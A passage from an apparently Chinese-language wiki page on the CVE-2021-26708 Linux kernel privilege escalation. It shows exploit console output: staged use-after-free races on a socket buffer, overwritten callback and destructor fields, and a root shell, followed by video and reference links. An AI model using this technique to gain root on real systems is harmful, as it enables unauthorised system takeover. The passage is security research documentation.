     [+] stage V: try to do UAF on skb at ffff9125c42fa000
    [+] skb payload:
        start at 0x7f0d91120004
        skb_shared_info at 0x7f0d91120ec4
        tx_flags 0x8
        destructor_arg 0xffff9125c42fa100
        callback 0xffffffffab64f6d4
        desc 0xffff9125c3fd6e53
    [+] go racing, show wins: 15

    [+] stage VI: repeat UAF on skb at ffff9125c42fa000
    [+] go racing, show wins: 0 12 13 15 3 12 4 16 17 18 9 47 5 12 13 9 13 19 9 10 13 15 12 13 15 17 30

    [+] finish as: uid=0, euid=0
    [+] starting the root shell...
    uid=0(root) gid=0(root) groups=0(root),1000(a13x) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

<div lang="chinese" dir="ltr" class="mw-content-ltr">
視頻
----

</div>
<youtube><https://www.youtube.com/watch?v=EC8PFOYOUgU></youtube>

<div lang="chinese" dir="ltr" class="mw-content-ltr">
參考
----

</div>
<https://a13xp0p0v.github.io/2021/02/09/CVE-2021-26708.html>